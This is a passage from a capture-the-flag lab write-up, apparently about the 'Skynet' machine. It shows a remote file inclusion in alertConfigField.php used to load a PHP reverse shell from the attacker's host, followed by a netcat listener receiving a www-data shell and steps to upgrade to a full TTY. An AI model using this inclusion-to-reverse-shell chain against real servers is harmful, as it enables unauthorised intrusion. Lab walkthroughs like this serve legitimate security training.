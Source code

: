 Finally we can access the vulnerable path.

```bash
❯ curl -S "http://10.10.201.231/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.116.52/php-reverse-shell.php"
```

Checking the listener we already gained access to a shell.

```bash
❯ nc -nvlp 443
listening on [any] 443 ...
connect to [10.11.116.52] from (UNKNOWN) [10.10.201.231] 37256
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 18:29:47 up  2:18,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

---

## Shell as www-data

Once we get the reverse shell, let's find a way to scale privileges, but before, we have to get a fully interactive shell, there are multiple ways but i like to do it this way: 

```bash
script /dev/null -c bash
```

Then press *Ctrl+Z* to get the process in background.

Now that you are in your machine execute the next command:

```bash
stty raw -echo;fg
```

Now write `reset xterm` and you should have a better looking shell but you still have to execute a few commands:

```bash
export TERM=xterm
export SHELL=bash
stty rows 45 columns 184
```

Make a `stty size` in your own shell to know the rows and columns.

Now that we own a full TTY we can take a look to the `user.txt` flag.

```bash
bash-4.3$ cat user.txt 
7ce5c21*******95809******0a9ae807
```
